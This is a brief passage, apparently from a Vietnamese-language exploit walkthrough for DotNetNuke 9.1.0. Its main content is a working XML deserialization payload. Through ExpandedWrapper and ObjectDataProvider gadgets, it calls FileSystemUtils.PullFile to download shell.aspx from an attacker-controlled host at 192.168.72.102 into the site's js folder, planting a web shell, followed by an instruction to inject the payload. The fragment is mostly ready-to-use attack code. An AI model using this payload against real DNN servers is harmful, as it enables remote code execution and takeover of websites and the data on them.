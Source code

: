 ta được file xml:

```xml
<profile>
  <item key="myTableEntry" type="System.Data.Services.Internal.ExpandedWrapper`2[[DotNetNuke.Common.Utilities.FileSystemUtils],[System.Windows.Data.ObjectDataProvider, PresentationFramework, Version=4.0.0.0, Culture=neutral, PublicKeyToken=31bf3856ad364e35]], System.Data.Services, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b77a5c561934e089">
    <ExpandedWrapperOfFileSystemUtilsObjectDataProvider xmlns:xsd="http://www.w3.org/2001/XMLSchema" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance">
      <ExpandedElement/>
      <ProjectedProperty0>
        <MethodName>PullFile</MethodName>
        <MethodParameters>
          <anyType xsi:type="xsd:string">http://192.168.72.102:8000/shell.aspx</anyType>
          <anyType xsi:type="xsd:string">C:\Web\DNN_Platform_9.1.0.367_Install\js\shell.aspx</anyType>
        </MethodParameters>
        <ObjectInstance xsi:type="FileSystemUtils"></ObjectInstance>
      </ProjectedProperty0>
    </ExpandedWrapperOfFileSystemUtilsObjectDataProvider>
  </item>
</profile>
```

Thực hiện chèn payload

![1](image/30.png)

![1](image/31.png)
